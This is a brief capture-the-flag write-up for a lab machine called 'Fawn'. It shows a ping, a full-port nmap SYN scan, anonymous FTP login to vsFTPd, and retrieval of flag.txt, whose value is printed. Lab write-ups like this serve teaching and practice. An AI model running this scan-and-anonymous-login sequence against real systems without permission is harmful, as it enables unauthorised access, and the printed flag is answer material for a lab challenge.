 ![Fawn.png](assets/fawn.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.166.28
```



2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.166.28
```

**Output**
```bash
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
```

3. Connect with **ftp**
```bash
┌──(root㉿kali)-[/home/kali]
└─| ftp 10.129.166.28 
Connected to 10.129.166.28.
220 (vsFTPd 3.0.3)
Name (10.129.166.28:kali):
```
+ In `Name (10.129.166.28:kali):` write **anonymous**.
+ We do this to access to system without password.


4. List files of system and get the `flag.txt` file.
```bash
ftp> ls
229 Entering Extended Passive Mode (|||12844|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
ftp> get flag.txt
```

5. Go to path **/home/kali** list files and read `flag.txt` 
```bash
┌──(root㉿kali)-[/home/kali]
└─| cat flag.txt           
035db21c881520061c53e0536e44f815 

```



**By: EsT**